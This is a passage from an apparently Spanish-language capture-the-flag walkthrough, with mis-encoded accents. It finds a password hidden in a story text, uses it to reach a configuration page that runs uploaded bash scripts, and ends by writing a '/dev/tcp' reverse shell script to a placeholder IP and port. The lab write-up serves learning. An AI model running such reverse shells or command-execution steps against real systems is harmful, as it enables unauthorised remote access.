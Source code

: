 ```
Sin embargo, el talento de Ãlvaro no radicaba solo en su capacidad para hackear sistemas; tambiÃ©n era un maestro en la Ã©tica de la ciberseguridad. En lugar de utilizar la informaciÃ³n para sus propios fines, utilizÃ³ su acceso para alertar al banco sobre las fallas en su sistema y proporcionar recomendaciones para mejorar la seguridad. Su acto no solo demostrÃ³ su habilidad tÃ©cnica, sino tambiÃ©n su integridad y compromiso con la seguridad digital.

La hazaÃ±a de Ãlvaro LÃ³pez pronto se convirtiÃ³ en una leyenda en el mundo de la ciberseguridad. El banco, agradecido por su valiosa contribuciÃ³n, lo recompensÃ³ generosamente y lo invitÃ³ a colaborar en la mejora de sus sistemas de seguridad. La historia de El Fantasma de Madrid se convirtiÃ³ en un ejemplo de cÃ³mo la habilidad y la Ã©tica pueden coexistir en el mundo del hacking.

Con el tiempo, Ãlvaro siguiÃ³ influyendo en el campo de la ciberseguridad, ofreciendo conferencias y talleres sobre la importancia de la protecciÃ³n de datos y la Ã©tica en el hacking. Su legado perdurÃ³, y su nombre se convirtiÃ³ en sinÃ³nimo de excelencia en el arte de la ciberseguridad, recordado como el mejor hacker que EspaÃ±a habÃ­a conocido.
```

Vemos que se repite varias veces la palabra `super_secure_password` y si nos vamos a la pagina web del puerto `80` vemos que tenemos que meter una palabra, por lo que probaremos con esa.

Si la metemos veremos que es la correcta y nos redirigira a otra pagina web en la que podemos crear una configuracion del sistema y despues mas abajo como ejecutarla por asi decirlo.

## Segunda pagina de configuracion

Si probamos a poner como nombre en la seccion `Configuration Identifier` por ejemplo `test1.sh`

Y en su contenido le metemos:

```shell
#!/bin/bash

echo 'Probando test1.sh'
```

Le daremos al boton de `Apply Configuration` y veremos que se nos creo un archivo con ese contenido, por que si nos vamos al servidor de `python3` veremos que el archivo esta ahi subido y con el contenido que le metimos, ahora si vamos a ejecutar esa "configuracion" en la opcion de abajo llamada `Execute Remote Configuration` ponemos el nombre del archivo `test1.sh` y le damos al boton `Fetch Configuration`, por lo que vemos que nos ejecuto correctamente e interpreta codigo bash, por lo que haremos lo siguiente.

## Reverse Shell

Crearemos un archivo de la misma forma llamado `shell.sh` y con el siguiente contenido:

```shell
#!/bin/bash

sh -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Info:
